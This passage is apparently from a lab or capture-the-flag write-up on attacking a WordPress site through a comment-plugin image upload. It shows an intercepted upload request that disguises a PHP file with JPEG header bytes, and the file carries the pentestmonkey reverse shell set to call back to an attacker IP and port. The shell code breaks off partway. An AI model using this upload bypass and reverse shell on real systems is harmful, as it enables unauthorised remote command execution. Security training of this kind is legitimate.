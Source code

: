 Results: webadmin

**Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.**

We intercept the request for uploading an image and we upload a pentestmonkey reverse shell:

```html
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------11335875238744126981755578650
Content-Length: 3462
Origin: http://blog.inlanefreight.local
Connection: keep-alive
Referer: http://blog.inlanefreight.local/?p=1
Cookie: wordpress_41b86925a9649ab021037fd033e676e4=doug%7C1738678857%7Crvhq8aaCVwCyCHKdisujDmB95zK2vWaPrRIhpn6RY1E%7Ce43a022a4a0c1ae3b4e237eb71b27ab3d6c0d037f344c0cd7a79eddbe5c823d3; wordpress_test_cookie=WP+Cookie+check; wpdiscuz_hide_bubble_hint=1; wp-settings-time-2=1738506386; comment_author_email_41b86925a9649ab021037fd033e676e4=doug.douglas@inlanefreight.local; comment_author_41b86925a9649ab021037fd033e676e4=Doug%20Douglas; wordpress_logged_in_41b86925a9649ab021037fd033e676e4=doug%7C1738678857%7Crvhq8aaCVwCyCHKdisujDmB95zK2vWaPrRIhpn6RY1E%7C69b9802a59cf0d79179d2c0a8cde61c18e4991196c4dc68669f918f78586cce5

-----------------------------11335875238744126981755578650
Content-Disposition: form-data; name="action"

wmuUploadFiles
-----------------------------11335875238744126981755578650
Content-Disposition: form-data; name="wmu_nonce"

2bcdf6e4cb
-----------------------------11335875238744126981755578650
Content-Disposition: form-data; name="wmuAttachmentsData"

undefined
-----------------------------11335875238744126981755578650
Content-Disposition: form-data; name="wmu_files[0]"; filename="mala.php"
Content-Type: application/octect-stream

ÿØÿà JFIF  ` `  ÿþ ;		
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.145';
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
```